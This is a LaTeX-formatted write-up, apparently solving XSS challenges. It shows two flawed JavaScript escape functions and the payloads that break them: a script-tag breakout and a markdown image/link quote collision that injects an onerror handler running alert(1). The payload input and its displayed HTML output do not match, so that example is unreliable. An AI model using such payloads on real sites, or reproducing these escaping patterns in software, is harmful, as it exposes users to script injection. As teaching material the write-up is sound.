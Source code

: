 \documentclass{article}
\begin{document}
\begin{verbatim}
	function escape(s) {
	    s = JSON.stringify(s);
	    return '<script>console.log(' + s + ');</script>';
	}
\end{verbatim}

Instead, we are able to close the script tag and open a new one, then comment out the remaining code. Like this.

\begin{verbatim}
	</script><script>alert(1)//
\end{verbatim}

\section{Markdown}

Now we have a more complex function. The first statement replaces \verb`<` and \verb`"` with \verb`&lt;` and \verb`&quot;` respectively. Then the next two statements simply perform some markdown processing on links and images.

\begin{verbatim}
	function escape(s) {
	    var text = s.replace(/</g, '&lt;').replace(/"/g, '&quot;');
	    // URLs
	    text = text.replace(/(http:\/\/\S+)/g,
	        '<a href="$1">$1</a>');
	    // [[img123|Description]]
	    text = text.replace(/\[\[(\w+)\|(.+?)\]\]/g,
		    '<img alt="$2" src="$1.gif">');
	    return text;
	}
\end{verbatim}

The trick here was to put a link inside an image description, so each of their double quotes would cancel each other out. Suppose we input the following string.

\begin{verbatim}
	[[_|http://onerror='alert(1)']]
\end{verbatim}

This string gets converted into the following HTML code.

\begin{verbatim}
	<img alt="<a href="http://onerror=alert(1)//" src="_.gif">">
	http://onerror=alert(1)//]]</a>
\end{verbatim}

When the browser attempts to render this, it first sees an image tag, with an \verb`alt` attribute with the value \verb`<a href=`, since the quote immediately following the \verb`=` closes the first one. Then the browser detects an attribute \verb`http:` with no value, and then \verb`onerror=alert(1)//"` becomes another attribute of this image tag in the form of \verb`onerror="alert(1)//""`. The trailing double quote becomes part of the JavaScript, but it is commented out to have no effect. Then the remaining text simply becomes a text node.

So the \verb`onerror` attribute's value runs as JavaScript code since the image \verb`_.gif` was not able to load because it does not exist.
\end{document}
